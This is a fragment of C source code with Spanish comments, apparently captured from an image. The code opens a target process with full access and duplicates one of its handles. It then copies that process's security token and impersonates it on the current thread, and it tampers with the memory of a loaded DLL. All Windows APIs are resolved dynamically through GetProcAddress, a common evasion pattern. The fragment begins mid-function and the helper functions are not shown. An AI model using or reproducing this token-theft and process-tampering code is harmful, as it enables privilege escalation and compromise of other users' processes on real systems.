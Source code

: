 ```c
    if (DuplicateHandle(hProcess, targetHandle, GetCurrentProcess(), &dupHandle, 0, FALSE, DUPLICATE_SAME_ACCESS)) {
        // Handle duplicado correctamente
    } else {
        // Error al duplicar el handle
    }
}

// Función para extraer y usar el token de un proceso
void extractToken(HANDLE hProcess) {
    HANDLE hToken, hDupToken;
    OpenProcessToken_t OpenProcessToken = (OpenProcessToken_t)GetProcAddress(LoadLibraryA("advapi32.dll"), "OpenProcessToken");
    DuplicateToken_t DuplicateToken = (DuplicateToken_t)GetProcAddress(LoadLibraryA("advapi32.dll"), "DuplicateToken");
    SetThreadToken_t SetThreadToken = (SetThreadToken_t)GetProcAddress(LoadLibraryA("advapi32.dll"), "SetThreadToken");

    if (OpenProcessToken(hProcess, TOKEN_QUERY | TOKEN_DUPLICATE, &hToken)) {
        if (DuplicateToken(hToken, 2 /* SecurityImpersonation */, &hDupToken)) {
            SetThreadToken(NULL, hDupToken);
        }
    }
}

// Función principal
int main() {
    DWORD targetPid = 1234;  // Reemplazar con el PID del proceso objetivo
    HANDLE hProcess;
    const char* targetModuleName = "target.dll";  // Reemplazar con el nombre de la DLL objetivo

    OpenProcess_t OpenProcess = (OpenProcess_t)GetProcAddress(LoadLibraryA("kernel32.dll"), "OpenProcess");

    // Abrir el proceso objetivo
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, targetPid);
    if (hProcess) {
        // Encontrar la DLL objetivo dentro del proceso
        HMODULE hModule = findTargetModule(hProcess, targetModuleName);
        if (hModule) {
            // Fuzzear la memoria de la DLL encontrada
            fuzzMemory(hProcess, (LPVOID)hModule);
        }

        // Duplicar un handle de ejemplo
        duplicateHandle(hProcess, (HANDLE)0x50);

        // Extraer el token del proceso
        extractToken(hProcess);
    }

    return 0;
}
```
